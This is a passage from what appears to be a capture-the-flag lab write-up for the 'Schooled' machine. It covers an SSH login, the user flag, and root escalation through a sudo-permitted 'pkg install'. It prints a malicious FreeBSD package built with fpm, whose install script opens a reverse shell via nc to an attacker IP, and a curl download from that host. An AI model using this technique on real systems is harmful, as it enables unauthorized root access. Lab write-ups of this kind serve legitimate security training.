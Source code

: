 With these creds, connected through SSH and obtained the `user.txt` flag :smile:

```bash
jamie@Schooled:~ $ id && hostname && cat user.txt
uid=1001(jamie) gid=1001(jamie) groups=1001(jamie),0(wheel)
Schooled
<redacted>
```

## Root Flag

Starting the enumeration for the root flag, the first command executed was `sudo -l` as usual, which displayed the commands below

```bash
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

Checking the [GTFOBins page](https://gtfobins.github.io/gtfobins/pkg/) for `pkg` found that we might be able to install a crafted package to run a command. The below steps were used to obtain a reverse shell as root

* Installed `fpm`, also available from this [Github Repository](https://github.com/jordansissel/fpm)

```bash
sudo apt-get install ruby ruby-dev rubygems build-essential
sudo gem install --no-document fpm
```

* Created a package containing the malicious payload from the attacker machine

```bash
TF=$(mktemp -d)
echo 'export file="/tmp/zurc"' > $TF/x.sh
echo 'rm $file;mkfifo $file;cat $file|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >$file' >> $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```

* Download package and install using `sudo` based on `jamie`'s permissions

```bash
jamie@Schooled:/tmp $ /usr/local/bin/curl http://10.10.10.10/x-1.0.txz -o x-1.0.txz
1.0.txz  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                  Dload  Upload   Total   Spent    Left  Speed
100   572  100   572    0     0   4144      0 --:--:-- --:--:-- --:--:--  4144
jamie@Schooled:/tmp $ sudo pkg install -y --no-repo-update ./x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
rm: /tmp/zurc: No such file or directory
```
